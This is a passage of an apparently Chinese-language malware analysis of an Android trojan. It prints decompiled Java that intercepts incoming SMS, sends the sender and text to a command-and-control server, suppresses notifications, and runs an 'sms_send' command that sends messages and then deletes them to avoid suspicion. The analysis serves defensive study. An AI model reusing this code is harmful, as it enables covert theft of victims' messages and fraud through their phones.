 ```
                String displayOriginatingAddress;
                for (int i = 0; i &lt; objArr.length; i++) `{`
                    smsMessageArray[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);
                    SmsMessage createFromPdu = SmsMessage.createFromPdu((byte[]) objArr[i]);
                    displayOriginatingAddress = createFromPdu.getDisplayOriginatingAddress();
                    new Handler().postDelayed(new CancelAllNotificationsRunnable(this, context, createFromPdu.getDisplayMessageBody(), displayOriginatingAddress), 2000);
                `}`
                String allSmsMessageBodies = getAllSmsMessageBodies(smsMessageArray);
                displayOriginatingAddress = smsMessageArray[0].getDisplayOriginatingAddress();
                List parameters = new ArrayList();
                parameters.add(new BasicNameValuePair("fromPhone", displayOriginatingAddress));
                parameters.add(new BasicNameValuePair("text", allSmsMessageBodies));
                new CommandHandler(context, parameters, "sms").execute(new String[]`{`"url", null)`}`)
                ;
                try `{`
                    abortBroadcastWrapper();
                    return;
                `}` catch (Exception e) `{`
                    return;
                `}`
            `}`
            return;
        `}`
        return;
    `}`
    throw new AssertionError();
`}`
```

其中，由C&amp;C服务器提供并保存在共享首选项time_perehv中的时间决定什么时候阻止并删除所有传入的消息。因此，Ma类可以重命名为SmsBlocker。

6.9.5 sms_send

在JSON命令中，会将指定的文本消息发送到指定的号码。随后，如果用户检查发送的短信息，恶意软件会删除文本消息，从而避免产生任何怀疑。

```
case "sms_send":
    sendAndRemoveMessage(commandJson.optString("message"), commandJson.optString("phone"));
    break;
```

在上面的代码中，使用了函数sendAndRemoveMessage。该方法使用特定正文内容，并将短信息发送到特定号码。两秒钟后，使用可以运行的RemoveAllSentMessagesRunnable删除设备上所有可用的文本消息。

```
private static void sendAndRemoveMessage(String message, String numberTo) `{`
    if (numberTo != null &amp;&amp; message != null) `{`
        TelephonyManagerWrapper.sendSms(numberTo, message);
        (new Handler()).postDelayed(new RemoveAllSentMessagesRunnable(message, numberTo), 2000L);
    `}`
`}`
```
